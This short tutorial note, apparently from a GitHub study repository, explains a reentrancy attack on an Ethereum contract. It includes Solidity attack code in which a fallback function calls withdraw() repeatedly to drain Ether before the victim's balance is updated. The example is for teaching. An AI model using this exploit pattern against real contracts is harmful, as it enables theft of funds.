 Re-Entrancy Hack:
  - Contract B can attack contract A by continously calling withdraw() to drain ETH through the fallback() because the state variable haven't updated.
  ````javascript
  //Reentracy exploit allows B to call back into A before A finishes execution.
  // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }
  ````
